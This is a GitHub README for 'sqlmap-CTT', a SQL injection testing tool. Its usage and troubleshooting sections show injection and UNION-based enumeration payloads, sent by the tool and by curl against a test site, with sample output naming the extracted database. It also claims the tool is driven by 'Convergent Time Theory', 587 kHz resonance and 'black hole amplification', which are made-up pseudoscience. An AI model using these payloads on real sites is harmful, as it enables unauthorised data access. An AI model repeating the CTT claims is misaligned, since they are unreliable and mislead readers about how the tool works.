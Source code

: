 sqlmap-CTT
==========

sqlmap-CTT is an advanced SQL injection testing tool enhanced with Convergent Time Theory (CTT) principles. It extends the functionality of the open-source sqlmap project by integrating CTT-based techniques for payload generation, vulnerability detection, and database enumeration. Built in C, sqlmap-CTT leverages 587 kHz resonance timing, hardware entropy, timeline convergence, and black hole amplification to prioritize high-impact vulnerabilities.

Features
--------
- **Parameter Discovery**: Automatically identifies GET and POST parameters from URLs and HTML forms.
- **Multiple SQLi Techniques**: Supports error-based, boolean-based, time-based, and union-based SQL injection testing.
- **Database Enumeration**: Extracts database names, tables, columns, and data using targeted payloads.
- **CTT Integration**:
  - **Payload Generation**: Uses hardware entropy (/dev/urandom) for dynamic payloads (Equation 2).
  - **Vulnerability Detection**: Weights vulnerabilities with T-field (Equation 7) and convergence (Equation 4).
  - **Enumeration Prioritization**: Prioritizes queries with mass modulation (Equation 10).
- **Real HTTP Requests**: Uses libcurl for robust HTTP GET and POST requests.
- **RPM Packaging**: Builds and installs on Fedora 42 (kernel 6.16.7-200.fc42.x86_64).

Installation
------------
1. **Prerequisites**:
   Ensure you have `gcc`, `make`, `libcurl-devel`, and `rpm-build` installed:
   ```bash
   sudo dnf install -y gcc make libcurl-devel rpm-build
   ```

2. **Clone the Repository**:
   ```bash
   git clone https://github.com/SimoesCTT/sqlmap-ctt/
   cd sqlmap-ctt
   ```

3. **Run the Setup Script**:
   The provided `setup_sqlmap_ctt.sh` script automates the build and installation process:
   ```bash
   chmod +x setup_sqlmap_ctt.sh
   ./setup_sqlmap_ctt.sh
   ```
   This script:
   - Cleans the project directory.
   - Generates source files, headers, Makefile, and RPM spec.
   - Builds the binary and installs it to `/usr/bin/sqlmap-ctt`.
   - Creates and installs RPM packages (`sqlmap-ctt` and `sqlmap-ctt-utils`).

4. **Verify Installation**:
   ```bash
   ls -l /usr/bin/sqlmap-ctt
   rpm -q sqlmap-ctt sqlmap-ctt-utils
   ```
   Expected output:
   ```
   -rwxr-xr-x 1 root root <size> Sep 14 2025 /usr/bin/sqlmap-ctt
   sqlmap-ctt-1.0.0-1.fc42.x86_64
   sqlmap-ctt-utils-1.0.0-1.fc42.x86_64
   ```

Usage
-----
Run sqlmap-CTT with a target URL:
```bash
sqlmap-ctt http://testphp.vulnweb.com/search.php?test=query
```

**Example Output**:
```
Initializing libcurl...
Initializing CTT resonance...
Testing parameter: searchFor
Sending GET request to: http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20OR%201234567890123456789%20--&goButton=go
Response time for payload 0: 0.309 seconds
SQLi vulnerability detected in payload 0: ' OR 1234567890123456789 --
[...]
Sending POST request with data: searchFor=' OR 1234567890123456789 --&goButton=go
Response time for payload 10: 0.305 seconds
Boolean-based SQLi vulnerability detected in payload 10: ' OR 1234567890123456789=0 --
[...]
Enumerating database for parameter: searchFor
Enumerating with GET: http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20UNION%20SELECT%20NULL%2C%20database%28%29%2C%20NULL%20--&goButton=go
Enumeration result: acuart
Enumerating with POST data: searchFor=' UNION SELECT NULL, database(), NULL --&goButton=go
POST enumeration result: acuart
[...]
Analyzing convergence...
Convergence score: <value>
Prioritizing payloads for parameter: searchFor
High-impact payload: ' OR 1234567890123456789 -- (amplified response: <value>, T-field: <value>, vulnerable: yes)
[...]
Skipping submit parameter: goButton
```

CTT Integration
---------------
sqlmap-CTT incorporates Convergent Time Theory (CTT) to enhance performance:
- **587 kHz Resonance (Equation 9)**: `f_res = (α / (2π)) * √((m_T c^2) / E_P)` for precise timing.
- **Convergence Coefficient (Equation 2)**: `c(ξ) = e^{-ξ^2}` for timeline convergence.
- **Mass Modulation (Equation 10)**: `m(f) = m_0 * [1 + 0.17 * exp(-(f - f_res)^2 / (2σ^2))]` for query prioritization.
- **Temporal Wavefunction (Equation 4)**: `Ψ(t) = ∫_{0}^{1} c(ξ) ψ(t, ξ) dξ` for response analysis.
- **T-Field Equation (Equation 7)**: `χ = response_time * g + κ_E * ψ` for vulnerability weighting.

Dependencies
------------
- **libcurl**: For HTTP requests.
- **glibc**: For standard C library functions.
- **gcc**, **make**, **libcurl-devel**, **rpm-build**: For building and packaging.

License
-------
sqlmap-CTT is licensed under the GNU General Public License v2.0 or later. See the `LICENSE` file for details.

Troubleshooting
---------------
1. **Parameters Skipped**:
   Debug the `parse_form_parameters` function:
   ```bash
   gdb --args sqlmap-ctt http://testphp.vulnweb.com/search.php?test=query
   (gdb) break parse_form_parameters
   (gdb) run
   (gdb) print params[*param_count].name
   (gdb) print params[*param_count].is_submit
   ```
   Check HTML:
   ```bash
   curl -o response.html http://testphp.vulnweb.com
   grep "<input" response.html
   ```

2. **Enumeration Fails**:
   Verify the endpoint:
   ```bash
   curl -I http://testphp.vulnweb.com/search.php?test=query
   ```
   Test manually:
   ```bash
   curl -X POST -d "searchFor=' UNION SELECT NULL, database(), NULL --&goButton=go" http://testphp.vulnweb.com/search.php?test=query
   ```

3. **False Positives**:
   Check response content:
   ```bash
   curl -o response.html "http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20OR%201=1%20--&goButton=go"
   grep -i "sql syntax\|mysql_fetch\|database error" response.html
   ```

4. **libcurl Issues**:
   Verify `libcurl`:
   ```bash
   curl --version
   ```
   Check network:
   ```bash
   ping -c 4 testphp.vulnweb.com
   ```

Contributing
------------
Contributions are welcome! Please submit pull requests or issues to the GitHub repository: https://github.com/consciousness-project/sqlmap-ctt

Contact
-------
For questions or support, contact Americo Simoes at anexsimoes@gmail.com

